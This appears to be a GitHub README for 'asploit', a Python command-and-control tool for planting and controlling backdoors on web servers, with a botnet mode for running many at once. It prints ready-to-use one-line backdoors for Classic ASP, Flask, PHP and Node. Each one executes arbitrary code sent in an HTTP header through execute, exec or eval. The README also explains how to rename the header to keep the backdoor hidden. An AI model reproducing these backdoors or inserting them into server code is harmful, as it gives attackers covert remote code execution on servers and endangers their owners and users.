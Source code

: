 # asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

Custom extensions can be created and installed to control any backdoored server.
# Command and Controller
## Setup
Install the prerequisites with `pip install -r requirement.txt` in the `src` folder.

If you're on Windows, run `pip install -r windows_requirements.txt`.
## Starting the Controller
The controller runs on Python. To start, run `main.py` in the `src` folder.
## Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.
## Botnet Controlling
To control multiple backdoors at once, run `botnet` outside of an exploit shell to enter the botnet mode.
## Custom Backdoors/Exploits
### Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.
### Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.
# Backdoor
## Backdoor Genreation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
### Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
### Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
### PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
### Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
#### Note
Only works if `fs` and `{ execSync } from 'child_process` is imported.

So in some cases, the backdoor may technically be up to three lines.
### Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).
# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.
# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
